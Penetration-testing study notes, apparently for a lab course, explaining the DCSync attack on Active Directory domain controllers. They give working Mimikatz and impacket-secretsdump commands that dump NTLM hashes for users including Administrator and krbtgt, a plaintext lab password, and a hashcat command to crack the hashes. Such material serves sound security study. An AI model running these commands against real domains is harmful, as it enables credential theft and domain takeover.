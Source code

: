 A domain controller may request an update for a specific object, like an account, using the `IDL_DRSGetNCChange`s API.

Luckily for us, the domain controller receiving a request for an update does not check whether the request came from a known domain controller. Instead, it only verifies that the associated SID has appropriate privileges. If we attempt to issue a rogue update request to a domain controller from a user with certain rights it will succeed.

To launch such a replication, a user needs to have the `Replicating Directory Changes`, `Replicating Directory Changes All`, and `Replicating Directory Changes` in Filtered Set rights.

By default, members of the Domain Admins, Enterprise Admins, and Administrators groups have these rights assigned.



If we obtain access to a user account in one of these groups or with these rights assigned, we can perform a dcsync attack in which we impersonate a domain controller. This allows us to request any user credentials from the domain.



### Windows
Use Mimikatz on a domain-joined Windows machine

We can perform the dcsync attack to obtain any user password hash in the domain, even the domain administrator Administrator.

```
lsadump::dcsync /user:corp\dave
lsadump::dcsync /user:BEYOND\Administrator

# Output
...
Credentials:
    Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
...
```


Then user hashcat:
```
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```








### Linux
impacket-secretsdump on our non-domain joined Kali machine

```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70

impacket-secretsdump -just-dc-user krbtgt corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.166.70


# Output
...
[*] Using the DRSUAPI method to get NTDS.DIT secrets
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
# This is the hash: 08d7a47a6f9f66b97b1bae4178747494
...
```
